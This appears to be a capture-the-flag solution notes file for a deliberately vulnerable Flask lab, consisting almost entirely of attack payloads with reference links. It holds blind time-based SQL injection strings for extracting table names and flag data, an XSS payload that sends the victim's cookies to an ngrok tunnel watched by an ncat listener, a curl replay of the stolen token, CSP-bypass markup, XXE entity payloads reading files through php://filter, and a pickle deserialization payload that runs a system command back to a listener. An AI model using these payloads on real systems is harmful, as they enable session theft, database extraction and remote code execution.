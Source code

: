 Flask
SQL
----------
' or 1=1; -- 

SQL Timing Based
--------------
https://www.youtube.com/watch?v=DYLDG_2Vs3E
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
"' or ((SELECT hex(substr(table_name,{},1)) FROM information_schema.tables limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- ".format(len(known_data)+1, x)
"' or ((SELECT hex(substr(column_name,{},1)) FROM information_schema.columns where table_name = 'supersecrettable' limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "
"user_name": "' or ((SELECT hex(substr(flag,{},1)) FROM supersecrettable limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "

NoSQL Blind injection
---------------------
https://www.youtube.com/watch?v=7kmttmmlygc
https://cloud.mongodb.com/v2/601b09a6a1838475f9393a92#metrics/replicaSet/622b90aef64b734b93ba453d/explorer/CTF/users/find
Refer to script

XSS
---------
ncat -klnvp 9000
ngrok http 9000
<script>document.write('<img src="http://340b-2406-3003-2077-4ea9-85b2-4692-1458-96f8.ngrok.io?cookie='+btoa(document.cookie)+'" />');</script>
curl -H "Cookie: token=8abae5d8bc89622b6bf5a76c948312f2" http://127.0.0.1:5000/XSS/admin

XSS with Content Security Policy (Low)
---------
<iframe src="http://localhost/CTF/attacker/base.html"></iframe>

XSS with Content-Security-Policy (High)
-----------------
<meta http-equiv="refresh" content="1; url=http://localhost:5000/XSS3/flag">


XML Blind injection
----------------------------
https://www.youtube.com/watch?v=ySJwlMsFbco
Refer to script


XXE injection
------------------------
https://www.youtube.com/watch?v=kiGoOuuXWFI

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <food>
    <name>Tonkatsu &example;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></food>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:5000/XXE/flag" >
]>
<food>
    <name>Tonkatsu &xxe;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></food>


Pickle Insecure Deserialization
---------------------------
Refer to script
ncat -klnvp 9000
curl -d "function=decode&input=\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x13ncat 127.0.0.1 9000\x94\x85\x94R\x94." http://127.0.0.1:5000/INSEC/





